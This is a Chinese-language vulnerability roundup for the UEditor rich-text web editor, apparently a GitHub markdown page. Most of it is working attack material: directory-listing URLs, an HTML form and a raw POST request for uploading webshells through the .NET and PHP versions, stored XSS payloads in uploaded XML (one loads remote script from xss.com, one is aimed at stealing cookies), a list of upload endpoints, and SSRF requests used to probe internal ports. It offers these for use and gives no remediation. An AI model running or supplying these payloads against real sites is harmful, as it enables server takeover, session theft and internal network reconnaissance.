



# Ueditor 编辑器漏洞总结

## 漏洞描述

UEditor 是由百度「FEX前端研发团队」开发的所见即所得富文本web编辑器，具有轻量，可定制，注重用户体验等特点，开源基于MIT协议，允许自由使用和修改代码。

界面如下：



## 漏洞复现

### 0x01 文件读取漏洞

file 目录文件读取：

```
http://www.xxxx.com/net/controller.ashx?action=listfile
```

image 目录文件读取：

```
http://www.xxxx.com/ueditor/net/controller.ashx?action=listimage
```

### 0x02 .net版本 任意文件上传

只适用于 .net 版本，存在于`1.4.3.3`、`1.5.0`和`1.3.6`版本中。

准备一台服务区存放图片马或者需要上传的文件，本地构造一个 `html` 页面用于上传使用

```html
<form action="http://www.xxxx.com/ueditor/net/controller.ashx?action=catchimage" enctype="application/x-www-form-urlencoded" method="POST">

    <p>shell addr: <input type="text" name="source[]" /></p>

    <input type="submit" value="Submit" />

</form>
```



- `shell addr` 处填写服务器上图片码地址，构造成以下格式，绕过上传使其解析为 `aspx`

```
http://xxxx/1.gif?.aspx
```

- 成功上传返回上传路径，可直连 getshell




### 0x03 php版本文件上传

poc：

```
POST http://localhost/ueditor/php/action_upload.php?action=uploadimage&CONFIG[imagePathFormat]=ueditor/php/upload/fuck&CONFIG[imageMaxSize]=9999999&CONFIG[imageAllowFiles][]=.php&CONFIG[imageFieldName]=fuck HTTP/1.1
Host: localhost
Connection: keep-alive
Content-Length: 222
Cache-Control: max-age=0
Origin: null
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML,like Gecko) Chrome/60.0.3112.78 Safari/537.36
Content-Type: multipart/form-data; boundary=——WebKitFormBoundaryDMmqvK6b3ncX4xxA
Accept:text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,/;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,en;q=0.6,zh-TW;q=0.4
———WebKitFormBoundaryDMmqvK6b3ncX4xxA
Content-Disposition: form-data; name="fuck"; filename="fuck.php"
Content-Type: application/octet-stream
<?php 
phpinfo();
?>
———WebKitFormBoundaryDMmqvK6b3ncX4xxA—

shell路径由CONFIG[imagePathFormat]=ueditor/php/upload/fuck决定
http://localhost/ueditor/php/upload/fuck.php
```

### 0x03 存储型xss

```
<html>

<head></head>

<body>
    <something:script xmlns:something="http://www.w3.org/1999/xhtml">alert(1)</something:script>
</body>

</html>

盲打 Cookie、src=""：
<something:script src="" xmlns:something="http://www.w3.org/1999/xhtml"></something:script>
```

上传点：

```
/ueditor/index.html
/ueditor/asp/controller.asp?action=uploadimage
/ueditor/asp/controller.asp?action=uploadfile

/ueditor/net/controller.ashx?action=uploadimage
/ueditor/net/controller.ashx?action=uploadfile

/ueditor/php/controller.php?action=uploadfile
/ueditor/php/controller.php?action=uploadimage

/ueditor/jsp/controller.jsp?action=uploadfile
/ueditor/jsp/controller.jsp?action=uploadimage
```

将`uploadimage`类型改为`uploadfile`，修改文件后缀名为`.xml`：


上传成功，访问成功弹框：


#### 一些常见的xml弹窗poc

弹窗xss：

```
<html><head></head><body><something:script xmlns:something="http://www.w3.org/1999/xhtml">alert(1);</something:script></body></html>
```

url跳转：

```
<html><head></head><body><something:script xmlns:something="http://www.w3.org/1999/xhtml">window.location.href="https://www.t00ls.net/";</something:script></body></html>
```

远程加载js：

```
<html><head></head><body><something:script src="http://xss.com/xss.js" xmlns:something="http://www.w3.org/1999/xhtml"></something:script></body></html>
```

### 0x04 ssrf

该漏洞存在于`1.4.3`的`jsp版本`中，`1.4.3.1`版本已经修复。

该版本ueditor的ssrf触发点：

```php
/jsp/controller.jsp?action=catchimage&source[]=
/jsp/getRemoteImage.jsp?upfile=
/php/controller.php?action=catchimage&source[]=
```

使用百度logo构造poc：

```
http://xxx/cmd/ueditor/jsp/controller.jsp?action=catchimage&source[]=https://www.baidu.com/img/PCtm_d9c8750bed0b3c7d089fa7d55720d6cf.png
```

内网端口探测：

```
/ueditor/jsp/getRemoteImage.jsp?upfile=http://127.0.0.1/favicon.ico?.jpg
/ueditor/jsp/controller.jsp?action=catchimage&source[]=https://www.baidu.com/img/baidu_jgylogo3.gif
/ueditor/php/controller.php?action=catchimage&source[]=https://www.baidu.com/img/baidu_jgylogo3.gif
```

判断该地址对应的主机端口是否开放：

- 如果抓取不存在的图片地址时，页面返回如下，即state为"远程连接出错"。

```
{"state": "SUCCESS", list:[{"state":"\u8fdc\u7a0b\u8fde\u63a5\u51fa\u9519"} ]}
```

- 如果成功抓取到图片，页面返回如下，即state为"SUCCESS"。

```
{"state": "SUCCESS", list: [{"state":"SUCCESS","size":"5103","source":"http://192.168.135.133:8080/tomcat.png","title":"1527173588127099881.png","url":"/ueditor/jsp/upload/image/20180524/1527173588127099881.png"}]}
```

- 如果主机无法访问，页面返回如下，即state为"抓取远程图片失败"。

```
{"state":"SUCCESS", list: [{"state":"\u6293\u53d6\u8fdc\u7a0b\u56fe\u7247\u5931\u8d25"}]}
```

还有一个版本的ssrf漏洞 ，存在于onethink 1.0中的ueditor，测试版本为1.2。poc：

```
POST http://xxx/Public/static/ueditor/php/getRemoteImage.php HTTP/1.1
Host: xxx
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:55.0) Gecko/20100101Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Connection: keep-alive

upfile=https://www.google.com/?%23.jpg
```

